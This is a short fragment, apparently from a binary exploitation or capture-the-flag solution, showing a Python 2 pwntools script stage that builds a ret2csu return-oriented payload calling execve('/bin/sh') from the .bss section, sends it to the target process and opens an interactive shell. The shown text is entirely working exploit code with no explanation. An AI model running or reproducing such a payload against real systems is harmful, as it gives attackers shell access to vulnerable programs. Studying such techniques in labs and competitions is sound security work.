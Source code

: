 ```python
sleep(1)

p.recvuntil("Hello, World\n")

#execve(rdi = bss_addr+8 = "/bin/sh", rsi=0, rdx=0)
payload3 = csu(0, 1, bss_addr, 0, 0, bss_addr + 8, main)

print "\n#############sending payload3#############\n"

sleep(1)
p.send(payload3)

p.interactive()
```

